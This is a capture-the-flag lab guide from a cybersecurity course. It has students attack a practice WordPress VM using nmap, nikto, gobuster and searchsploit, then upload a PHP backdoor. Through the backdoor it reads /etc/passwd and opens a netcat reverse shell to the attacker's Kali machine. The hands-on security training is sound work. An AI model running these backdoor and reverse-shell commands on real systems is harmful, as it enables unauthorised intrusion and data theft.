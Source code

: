 ## Activity File: Attacking Target 2 (Optional)


Please note, **attacking Target 2 is not required**. It is included as an additional challenge if you are interested in assessing a more complex web application. Before attempting this challenge, make sure you complete the Wireshark analysis.

Target 2 exposes the same WordPress site as Target 1, but with better security hardening. Therefore, it must be exploited differently than Target 1. 

The steps for completing this assessment are enumerated below. All details required to capture the first three flags on Target 2 are included.


### Instructions

Target 2's IP Address: `192.168.1.115`

1. Use Nmap to identify the IP address of Target 2.

2. Use Nmap to document all exposed ports and services at this IP address.

3. Enumerate the web server with `nikto`.
    - **Hint**: Run: `nikto -C all -h <URL>`
    - **Note**: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?

4. Perform a more in-depth enumeration with `gobuster`.
    - **Hint**
      - Install `gobuster` using `apt`
      - Run `gobuster -w /path/to/wordlist dir -u <URL>`
      - Use `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` as your wordlist (`-w`).
      - Pay attention to the `/vendor` directory. There may be a `flag` in there...


5. Use searchsploit to find any known vulnerabilities associated with the programs found in Step #4.
    **Hint**: Run `searchsploit -h`

6. Use the provided script `exploit.sh` to exploit this vulnerability by opening an Ncat connection to your Kali VM.

    - Edit the line at the top of the script that sets the `TARGET` variable. Set it equal to the IP address of Target 2.

    - Run the script. It uploads a file called `backdoor.php` to the target server. This file can be used to execute command injection attacks.

    - Navigate to: `http://<Target 2 URL>/backdoor.php?cmd=<CMD>`
      - This allows you to run bash commands on Target 2.
      - For example, try: `http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd`

    - Next, use the backdoor to open a shell session on the target.

      - On your **Kali** VM, start a netcat listener: `nc -lnvp 4444`
      - In the browser, use the backdoor to run: `nc <Kali IP> 4444 -e /bin/bash`. For example, your query string will look like `cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

7. Using the shell you've opened on `Target 2`, find a `flag` in `/var/www`.

8. Next, find a flag in the WordPress uploads directory.

    - **Hint**: Use the `find` command: `find /var/www -type f -iname 'flag*'`

9. If you find all three flags -- congratulations! There is a fourth, but escalating to `root` is extremely difficult: For now, move on to completing a report about Target 2.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
